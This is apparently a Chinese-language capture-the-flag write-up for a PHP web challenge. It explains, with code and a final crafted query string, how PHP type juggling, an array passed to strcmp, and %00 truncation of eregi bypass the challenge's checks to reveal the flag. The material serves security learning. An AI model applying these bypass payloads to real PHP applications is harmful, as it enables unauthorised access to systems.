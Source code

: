 # Challenge
```php
<?php
show_source(__FILE__);
$v1=0;$v2=0;$v3=0;
$a=(array)json_decode(@$_GET['foo']);
if(is_array($a)){
   is_numeric(@$a["bar1"])?die("nope"):NULL;
   if(@$a["bar1"]){
	   ($a["bar1"]>2016)?$v1=1:NULL;
   }
   if(is_array(@$a["bar2"])){
	   if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
	   $pos = array_search("nudt", $a["a2"]);
	   $pos===false?die("nope"):NULL;
	   foreach($a["bar2"] as $key=>$val){
		   $val==="nudt"?die("nope"):NULL;
	   }
	   $v2=1;
   }
}
$c=@$_GET['cat'];
$d=@$_GET['dog'];
if(@$c[1]){
   if(!strcmp($c[1],$d) && $c[1]!==$d){
	   eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
	   strpos(($c[0].$d), "htctf2016")?$v3=1:NULL;
   }
}
if($v1 && $v2 && $v3){
   include "flag.php";
   echo $flag;
}
?>
```

# Solution
## v1
```php
$a=(array)json_decode(@$_GET['foo']);
if(is_array($a)){
    is_numeric(@$a["bar1"])?die("nope"):NULL;
    if(@$a["bar1"]){
        ($a["bar1"]>2016)?$v1=1:NULL;
    }
    ....
}
```
传入的foo，经过一次json_decode，然后转换成array。然后判断 `$a["bar1"]` 是否满足 is_numeric，若满足则die掉。接下来又判断 `$a["bar1"]` 是否大于 2016 。

利用php弱类型特性，可以设置
```
$a["bar1"] = 2017a
```

这样is_numeric时会判断其为字符串而不是数字，而在与2016的比较中，会直接转换成2017，满足大于2016。这样 v1 就被设置为 1 了。

## v2
```php
if(is_array(@$a["bar2"])){
	if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
	$pos = array_search("nudt", $a["a2"]);
	$pos===false?die("nope"):NULL;
	foreach($a["bar2"] as $key=>$val){
		$val==="nudt"?die("nope"):NULL;
	}
	$v2=1;
}
```

接下来，要求`$a["bar2"]`是个数组，其中元素的个数为5个（count($a["bar2"])!==5），同时要求`$a["bar2"][0]`是数组。所以我们设置:
```
$a["bar2"] = [[],2,3,4,5]
```

对于 `$pos = array_search("nudt", $a["a2"]);`，它搜索字符串“nudt”在$a["a2"]中的位置。若没有找到，array_search返回false，会通过严格比较导致die掉。所以这里要设置：
```
$a["a2"] = “nudt”
```
注意这里因为用了`$pos===false?`的严格比较，所以0不`===`false。

之后就能设置 v2 = 1

结合$a是由json_decode得来，所以第一个payload为：
```
foo={"bar1":"2017a","bar2":[[],2,3,4,5],"a2":["nudt"]}
```

## v3
```php
$c=@$_GET['cat'];
$d=@$_GET['dog'];
if(@$c[1]){
   if(!strcmp($c[1],$d) && $c[1]!==$d){
	   eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
	   strpos(($c[0].$d), "htctf2016")?$v3=1:NULL;
   }
}
if($v1 && $v2 && $v3){
   include "flag.php";
   echo $flag;
}
```

先会用strcmp进行比较，利用数组array和字符串进行strcmp比较会返回null，而且数组array也不会等于字符串，我们可以设置cat[1]为一个数组。

接下来用eregi对拼接后的字符串`$d.$c[0]`进行正则匹配，若匹配到则die掉。而下一步又要求拼接字符串`$c[0].$d`中要有字符串“htctf2016”。这里利用%00对eregi的截断功能，则在正则匹配eregi时在开头时就匹配结束掉。

`strpos(($c[0].$d), "htctf2016")`中，还要求“htctf2016”不能出现在开头。

所以设置：
```
$d = %00 即 dog=%00

$c[0]  = "ahtctf2016"
```

所以综上所述，构造最后的payload如下：
```
?foo={"bar1":"2017e","bar2":[[],2,3,4,5],"a2":["nudt"]}&cat[0]=ahtctf2016&cat[1][]=&dog=%00
```


# Refference
+ [chybeta : PHP](https://chybeta.github.io/2017/07/16/XMAN%E9%80%89%E6%8B%94%E8%B5%9B-2017-web-writeup/#PHP)